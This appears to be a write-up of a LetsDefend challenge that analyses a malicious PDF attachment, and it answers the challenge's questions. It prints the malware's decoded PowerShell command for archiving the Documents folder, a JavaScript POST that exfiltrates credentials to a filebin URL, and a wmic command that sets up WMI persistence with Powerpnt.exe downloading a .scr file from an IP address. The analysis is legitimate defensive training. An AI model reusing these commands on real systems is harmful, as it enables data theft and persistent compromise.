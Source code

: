 ```yaml
---
title: PDF Analysis
author: 0wlexe
date: 2022-12-11 20:55:00 +0800
categories: [Walkthroughs, LetsDefend]
tags: [File Analysis, Malware Analysis]
pin: false
img_path: 'https://miro.medium.com/v2/resize:fit:720/format:webp/1*FrflEPS13OZ9W0SUdk0owQ.png'
---
```


## Summary:
An employee has received a suspicious email:
  ```
From: systemsupdate@letsdefend.io
To: paul@letsdefend.io
Subject: Critical — Annual Systems UPDATE NOW
Body: Please do the dutiful before the deadline today.
Attachment: Update.pdf
Password: letsdefend
  ```

![Figure 01 - Simulation of the e-mail](https://miro.medium.com/v2/resize:fit:720/format:webp/1*e2ypH0L_zoVi--rIYGxseQ.png)

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**NOTE: Do not open in your local environment. It is a malicious file.**

This challenge prepared by [@DXploiter.](https://twitter.com/DXploiter)

## Information we should find:

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

## Write-up

In order to analyze the contents of the .pdf file, we can use the strings command to extract all strings present in our specified file “Update.pdf”.

![Figure 02 - Extraction of the pdf file using strings command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*5B01xTv3ZVcjaovRnskcBg.png)

Taking a closer look at the strings of the file, it is possible to find a powershell command encoded in Base64.

![Figure 03 - Powershell encoded command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*MkaEM89trAJ-bI_cBygHIg.png)

By decoding the previous command with a decoder tool, there’s a text of reversed characters, we can tell it by taking an even closer look: p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC

![Figure 04 - Cryptii Decoder Tool, Base64 to text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*euw4Dx1jIhWHGRIdX1SLZQ.png)

Reversing the string, you should find the hidden powershell command: Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p

![Figure 05 - Code Beautify Tool, Reverse String](https://miro.medium.com/v2/resize:fit:720/format:webp/1*882lAlFlSasi_SXFGyqn5Q.png)

By analysing the previous command, we have gathered the following information about the payload created by the malware:

- `Compress-Archive` - Command to compress the archive;
- `Path C:%Documents%*` - Local directory targeted by the malware;
- `Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p` - Update the destination path to create a new folder “zniwkejnnwnqw” containing the file “D0csz1p” which looks similar to ’docs.zip’.

Going back to the strings of our file, there’s more lines of code we should also pay attention to. From the following lines, we can “get” a POST request, an HTTP method designed to send data to the server from an HTTP client.

![Figure 06 - Lines of code streaming data from client with HTTP - POST request](https://miro.medium.com/v2/resize:fit:720/format:webp/1*z66QaTxsqSrft2oLzrS8fQ.png)

However, by looking at these lines of code alone, we can only assume there is a JavaScript Object Notation (JSON) to be sent, but it’s not very clear to who it is being sent because it’s obfuscated.

![Figure 07 - Custom function eval(p,a,c,k,e,d)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8hljApXrvvHnp2Djeo8YvA.png)

The `eval(p,a,c,k,e,d)` function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a obfuscated script.

In order to have a better look at the script, we can use a tool to format the previous lines of code into something more readable.

![Figure 08 - Javascript Beautifier Tool](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ihY6E-M1cQeWc0VK6BvI3Q.png)

From the previous function, we can observe the following information:

- The file is trying to interact with the external domain: “https://filebin[.]net/0flqlz0hiz6o4l32/D0csz1p" by a POST request;
- The data it is trying to send are credentials that should be armazenated in the var data = ‘{“login”:””,”password”:””}’.

Now in order to find which tool would have been used for creating the persistence mechanism within the payload, we should go back to the strings of the PDF and analyse the contents of the /ObjectAction.

![Figure 09 - Powershell script within the contents of the /ObjectAction](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ogFKxxMT34rKFm0x0g6UsQ.png)

We can open the script on powershell in order to find out more information, but instead of actually running it, we should change the input from invoke-Expression $LoadCode (to run the script) into **“Write-Output $LoadCode” (to print the content of the script).**

![Figure 10 - Powershell ISE, Write-Output of the script](https://miro.medium.com/v2/resize:fit:720/format:webp/1*CQUlYjYT0L_FHdFVjHlubQ.png)

Useful information taken from the script:

- `Query=”SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’”` The suspicious script should get events from a remote location within 9000 seconds;
- `wmic /NAMESPACE:”\\root\subscription” PATH CommandLineEventConsumer CREATE Name=”RHWsZbGvlj”, ExecutablePath=”C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe ‘http://60.187.184[.]54/wallpaper482[.]scr'`  It is creating a process to run a specified executable program from a command line under the LOLBin **“Powerpnt.exe”**, which downloads the file **“wallpaper482.scr”** hosted in the suspicious IP domain **60.187.184[.]54;**

![Figure 11 - VirusTotal information on the suspicious IP](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_gTFVLWE5H4gnAQq5B6CkQ.png)

- Running the previous suspicious IP on VirusTotal, it is detected by five Antivirus’ vendors as a possible indicator of compromise located in China;

![Figure 12 - Information from the Whois Lookup](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xsx33ZmjPL3ANVCmH2Oaew.png)

- In order to confirm its location, we can get the following information from the Whois: the IP is hosted under the ISP **CHINANET-ZJ**, located in Shaoxing, Zhejiang, China.

That should be enough to answer all the questions from the challenge. Thank you for reading!



